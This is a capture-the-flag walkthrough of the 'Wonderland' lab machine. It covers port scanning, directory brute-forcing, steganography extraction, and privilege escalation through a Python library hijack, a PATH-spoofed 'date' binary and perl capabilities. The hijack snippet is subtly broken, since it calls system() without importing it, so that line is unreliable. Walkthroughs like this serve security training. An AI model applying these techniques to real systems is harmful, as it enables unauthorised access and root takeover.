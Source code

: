 # Wonderland

## Scanning & Footprinting

`sudo nmap -T4 -n -p- 10.10.1.140`

![Nmap Scan 1]()

`sudo nmap -T4 -n -A -p 22,80 10.10.1.140`

![Nmap Scan 2]()

here we got port 80 so lets open into the browser with devloper window.

## Port 80 enumeration

lets perform directory bruteforcing using gobuster

`gobuster dir -u http://10.10.1.140/`

![Gobuster Result]()

![img directory]()

here we got sus. directory. directory name **/r** and **img** page. **img** directory have some photos so download those using wget command and check any steg file is there or not without password.

`wget http://10.10.1.140/img/alice_door.jpg`

`steghide extract -sf alice_door.jpg`

![steg alice_door png]()

`wget http://10.10.1.140/img/white_rabbit_1.jpg`

`steghide extract -sf white_rabbit_1.jpg`

![steg white_rabbit_1 jpg]()

here we got **hint.txt** file from **white_rabbit_1.jpg**.

![hint txt]()

**follow the white rabbit** which i dont get it at first place so i decide to do one more level deep down to bruteforcing using gobuster. 

`gobuster dir -u "http://10.10.1.140/r/" -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t 100 -q`

![gobuster scan 2]()

here we got one more directory **/a**, lets open it into browser.

![web page ra directory]()

**Keep Going**. So decide to do gobuster scanning.

`gobuster dir -u "http://10.10.1.140/r/a/" -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t 100 -q`

![gobuster scan 3]()

here we got one more directory **/b**, lets open it into browser.

![web page ra directory]()

**Keep Going**. So once again decide to do gobuster bruteforcing.

![gobuster scan 4]()

after getting this result, now i can relate to the **hint.txt** file. lets try to open **/r/a/b/b/i/t/** directory into browser with devloper window.

![web page rabbit directory]()

here we got ssh credintials.

so lets test it.

## Port 22 enumeration

![alice account]()

but wait here got root flag; but we can't open it. and one more python file we got **walrus_and_the_carpenter.py**.

![walrus and the carpenter python program]()

first of all find the user flag first. lets run the find command to find the user flag.

`find / -type f -name "user.txt" -exec ls -l {} + 2>/dev/null`

![find command in alice]()

but we got nothing here. so i dicide to take hint.

**Hint: Everything is upside down here.**

now i got it. if root flag in to the user directory then user flag must be into the root directory so i used ls command to verify it.

`ls -l /root/user.txt`

![user flag found]()

now we need to privilege escalate and try to get the root access.

## Privilege Escalation

`sudo -l`

![sudo l command]()

here we got some intresting output. python3 pogram looks like run able by **rabbit** user also. As we know python program use **random** library, so lets spoof that library.

first of all lets check python library where it is calling from.

`python3 -c 'import sys; print(sys.path)'`

![python library path]()

here we can see the python program check first current folder for the **random** library. so we need to create eveil code into the file **random.py** in present alice home direcotry.

```python
import os

system("/bin/bash")
```

![evil random python code]()

lets run the python program as **rabbit** user.

`sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

![rabbit account]()

now we are the **rabbit** user. let go to the rabbit home direcotry.

![teaParty file]()

here we got **teaParty** file. for the binery inspection lets download it into own kali/parrot machine (using wget and python http server command) and load this binery file into **Ghedra** software.

![Gidra output]()

this binary file executes command like **date**. lets make own **date** command and spoof the actual **date** command.

```
#!/bin/bash

/bin/bash
```

Save this in **/tmp** directory and give the name **date**  and make it executable by using **chmod** command. add the **/tmp** directory into path variable. after making this file lets execute the **teaParty** program.

![date file and path]()

![hatter account]()

![hatter ssh password]()

here we got password, so lets test it into ssh port. here we can successful login to **hatter** user

![hatter ssh access]()

lets download **LinPeas** into the victem machine. using **wget** command. add the permission and run the LinPeas program

![LinPeas download]()

Lets analyze the LinPeas result.

![LinPeas output]()

here we can see perl capabilities. it can gives us root privilege. here i got refrence from [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#capabilities). lets try to execute the command and get the root flag.

![root flag]()

THE END!!!